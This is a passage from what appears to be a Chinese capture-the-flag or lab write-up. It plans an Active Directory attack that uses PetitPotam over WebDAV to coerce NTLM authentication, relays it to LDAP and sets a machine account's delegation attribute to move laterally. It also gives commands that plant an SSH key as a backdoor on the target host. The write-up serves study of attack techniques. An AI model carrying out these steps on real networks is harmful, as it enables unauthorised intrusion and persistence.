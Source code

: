 `172.22.11.26`机器上存在`WEBDAV`服务

[![](assets/1705989181-e0a2eefb64e2a9a89c678ff561e6d0dd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122170053-bf108afc-b904-1.png)

存在`PetitPotam`。

根据题目描述，那么这里应该是要用到`WEBDAV + PetitPotam`的强制认证，简单的说就是要求我们用`PetitPotam`强制目标主机使用`LM Hash、NTLM Hash`对我们的服务器进行认证，此时我们可以通过该认证中继到其他目标服务器，以此达到横向的目的。

参考了大师傅们的博客，发现这里使用的是`无ADCS + PetitPotam + NTLM`中继打法，思路大概如下

```bash
1、用 petitpotam 触发目标访问 HTTP 服务
2、目标使用 webclient 携带 NTLM 认证访问中继，并将 NTLM 认证中继到 LDAP
3、获取到机器账号身份
4、以机器账户的身份修改其自身的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性，从而允许我们访问到目标机器。
```

中继环境配置

我们需要把服务器的 80 端口，转发到客户端本地的 80 端口。

因此先配置下密钥，写下后门。

```bash
攻击机
ssh-keygen -t rsa -b 4096 
cat id_rsa.pub
靶机
echo "pub 中的内容" >/root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

[![](assets/1705989181-08827aa7fc8192aacbe929c8280b935b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122170100-c3b09f98-b904-1.png)

